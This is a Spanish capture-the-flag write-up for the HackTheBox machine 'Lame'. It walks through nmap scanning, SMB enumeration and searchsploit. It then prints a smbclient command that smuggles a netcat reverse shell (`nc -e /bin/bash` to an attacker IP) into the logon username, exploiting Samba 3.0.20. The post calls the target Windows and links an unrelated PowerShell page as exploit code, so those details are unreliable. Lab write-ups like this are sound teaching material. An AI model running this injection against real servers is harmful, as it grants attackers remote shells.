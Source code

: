 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Lame               |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.3         |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Lame/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.3
```

![nmap 1](/assets/images/Lame/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

![nmap2](/assets/images/Lame/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p21,22,80,139,445,3632 10.10.10.3 -oN targeted
```

![nmap 3](/assets/images/Lame/nmap3.png)

Lo primero que podemos intentar sobre esta maquina windows para enumerar informacion es:

```s
enum4linux -a 10.10.10.3
```

```s
smbclient --no-pass --list=10.10.10.3
```

![smb 1](/assets/images/Lame/smb1.png)

Parece que tendremos que abusar del vsfp y en exploitdb existe un <a href="https://itluke.online/2018/11/27/how-to-display-firewall-rule-ports-with-powershell/">codigo</a> que lo hace vulnerable

Al parecer no es vulnerable la maquina para este servicio, lo siguiente seria buscar en el mismo metasploit sobre la version de samba ahora.

```s
searchsploit samba 3.0.20
#para examinarlo utilizamos el parametro -x
```

Una vez analizando como funciona el exploit, manualmente podemos ejecutar:

```s
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
```

![smbclient 2](/assets/images/Lame/smclient2.png)

Despues de ver que tiene activado el usuario Anonymous, podemos intentar ahora:

```s
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nc -e /bin/bash 10.10.14.22 443`"'
```

El primer intento que hice con este metodo me quedo, pero despues dejo de servir. Por suerte metasploit tiene un modulo para samba y les dejo cual fue, solo tuve que poner el LHOST y RHOST ademas.
Automaticamente obtendremos el root y podremos avanzar.

![root](/assets/images/Lame/meta.png)

![powned](/assets/images/Lame/smclient2.png)